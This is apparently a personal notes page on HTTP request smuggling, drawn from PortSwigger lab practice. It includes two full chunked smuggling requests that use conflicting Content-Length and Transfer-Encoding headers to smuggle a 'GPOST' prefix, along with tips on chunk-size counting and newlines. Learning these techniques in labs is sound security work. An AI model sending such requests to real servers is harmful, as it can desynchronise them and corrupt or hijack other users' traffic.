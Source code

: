 # Mad security findings

This is crazy stuff I found out in the wild. I will put here only the ones, which are the most crazy in my opinion and caused my brain to question reality. Most of those I found out during solving Portswigger’s Web security academy labs or another sandbox.


## Request Smuggling
- Requests with `Transfer-Encoding: chunked` need to have **two(!!!)** additional newlines after ending `0`.
- Chunked requests behave differently when they are multiline or single line! Consider following examples:

```
POST / HTTP/1.1
Host: some-token.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 3

5
GPOST
0


```

You can notice above GPOST is stated 5 - this exactly represents character size of `GPOST`. If you would like to include also following newline, your request would be invalid. Now lets take a look for a multiline example:

```
POST / HTTP/1.1
Host: some-token.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 3

a
GPOST
FOO
0


```

You can notice `a` above `GPOST`. It is hexadecimal representation of 10. But wait... why? Okay.. lets count: `GPOST (5 chars)` + `newline (1 char)` + `FOO (3 chars)` + `newline (1 char)`!!! Lesson to learn: Multiline chunked requests need additional ending newline to be included in your size calculation otherwise request will be invalid!

## NEWLINES

Beware of newlines - BurpSuite represents them as 2 characters - `\r\n` (a newline with carriage return). As shown above - It looks like sometimes request can use only simple newline without carriage return!!! 

Investigate this...

